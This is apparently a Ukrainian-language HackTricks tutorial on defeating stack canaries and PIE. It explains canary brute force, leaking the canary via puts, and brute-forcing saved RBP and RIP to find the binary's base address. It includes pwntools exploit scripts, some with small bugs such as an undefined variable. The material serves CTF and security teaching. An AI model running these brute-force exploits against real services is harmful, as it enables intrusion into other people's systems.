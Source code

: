<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв GitHub**.

</details>


**Якщо ви маєте справу з бінарним файлом, захищеним канарейкою та PIE (Position Independent Executable), вам, ймовірно, потрібно знайти спосіб їх обійти.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Зверніть увагу, що **`checksec`** може не виявити, що бінарний файл захищений канарейкою, якщо він був статично скомпільований і не може ідентифікувати функцію.\
Однак ви можете вручну помітити це, якщо ви виявите, що значення зберігається в стеку на початку виклику функції і це значення перевіряється перед виходом.
{% endhint %}

# Brute force Canary

Найкращий спосіб обійти просту канарейку - це якщо бінарний файл є програмою, яка **розгалужує дочірні процеси кожного разу, коли ви встановлюєте нове з'єднання** з ним (мережевий сервіс), оскільки кожного разу, коли ви підключаєтеся до нього, **використовуватиметься та сама канарейка**.

Тоді найкращий спосіб обійти канарейку - це просто **перебрати її посимвольно**, і ви можете визначити, чи був вірний вгаданий байт канарейки, перевіривши, чи програма впала, чи продовжує свій звичайний хід. У цьому прикладі функція **перебирає 8 байтів канарейки (x64)** і розрізняє між правильно вгаданим байтом та невірним байтом, просто **перевіряючи**, чи **відправлена відповідь** сервером (інший спосіб у **іншій ситуації** може бути використання **try/except**):

## Приклад 1

Цей приклад реалізований для 64-бітної системи, але може бути легко реалізований для 32-бітної системи.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## Приклад 2

Це реалізовано для 32-бітної системи, але це можна легко змінити на 64 біти.\
Також зверніть увагу, що для цього прикладу **програма спочатку очікує байт, щоб вказати розмір введення** та полезне навантаження.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# Друк Канарейки

Ще один спосіб обійти канарейку - це **роздрукувати її**. Уявіть ситуацію, де **програма вразлива** на переповнення стеку може виконати функцію **puts**, яка **вказує** на **частину** переповненого стеку. Атакуючий знає, що **перший байт канарейки є нульовим байтом** (`\x00`), а решта канарейки - **випадкові** байти. Потім атакуючий може створити переповнення, яке **перезапише стек до першого байту канарейки**.\
Потім атакуючий **викликає функціональність puts** посередині політря, яка **роздрукує всю канарейку** (крім першого нульового байту).\
З цією інформацією атакуючий може **створити та відправити нову атаку**, знаючи канарейку (у тій самій сесії програми)

Очевидно, що ця тактика дуже **обмежена**, оскільки атакуючому потрібно мати можливість **роздрукувати** **вміст** свого **політря** для **екстракції** **канарейки**, а потім мати можливість створити нове політря (у **тій самій сесії програми**) та **відправити** **справжнє переповнення буфера**.\
Приклад CTF: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

Для обходу PIE вам потрібно **витікати деяку адресу**. І якщо у бінарному файлі не витікає жодна адреса, то найкраще зробити це - **перебором RBP та RIP, збережених у стеці** у вразливій функції.\
Наприклад, якщо бінарний файл захищений як **канарейкою**, так і **PIE**, ви можете почати перебирати канарейку, потім **наступні** 8 байтів (x64) будуть збереженим **RBP**, а **наступні** 8 байтів будуть збереженим **RIP**.

Щоб перебрати RBP та RIP з бінарного файлу, ви можете зрозуміти, що правильний вгаданий байт є правильним, якщо програма виводить щось або просто не крашиться. Та **сама функція**, яка надана для перебору канарейки, може бути використана для перебору RBP та RIP:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## Отримання базової адреси

Останнє, що вам потрібно зробити, щоб перемогти PIE, це розрахувати **корисні адреси з витікших** адрес: **RBP** та **RIP**.

З **RBP** ви можете розрахувати **де ви пишете свій shell в стеку**. Це може бути дуже корисно, щоб знати, де ви збираєтеся записати рядок _"/bin/sh\x00"_ всередині стеку. Щоб розрахувати відстань між витікшим RBP та вашим shellcode, ви можете просто встановити **точку зупинки після витоку RBP** та перевірити **де знаходиться ваш shellcode**, після цього ви можете розрахувати відстань між shellcode та RBP:
```python
INI_SHELLCODE = RBP - 1152
```
З **RIP** ви можете обчислити **базову адресу PIE-бінарного файлу**, яка вам знадобиться для створення **дійсного ланцюжка ROP**.\
Щоб обчислити базову адресу, просто виконайте `objdump -d vunbinary` та перевірте розібрані останні адреси:

![](<../../.gitbook/assets/image (145).png>)

У цьому прикладі ви можете побачити, що для виявлення всього коду потрібно лише **1 байт та пів**. Тоді базова адреса в цій ситуації буде **витікати з RIP, але закінчуватися на "000"**. Наприклад, якщо витік _0x562002970**ecf**_, базова адреса буде _0x562002970**000**_.
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити свою **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
